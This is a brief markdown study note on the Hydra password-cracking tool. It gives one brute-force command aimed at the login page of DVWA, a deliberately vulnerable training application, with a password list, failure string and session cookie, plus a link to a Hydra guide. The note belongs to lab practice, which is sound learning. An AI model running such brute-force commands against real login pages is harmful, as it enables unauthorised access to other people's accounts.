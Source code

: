 ### Hydra Notes

#### Basic hydra command 

this command must be edited to fit the paramaters of the login page. it's just a basic layout of the command. 

`hydra 192.168.1.150 -l admin -P ‘pass.txt’ http-get-form “/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie:PHPSESSID=13f2650bddf7a9ef68858ceea03c5d; security=low”`

#### [A Detailed Guide on Hydra](https://www.hackingarticles.in/a-detailed-guide-on-hydra/)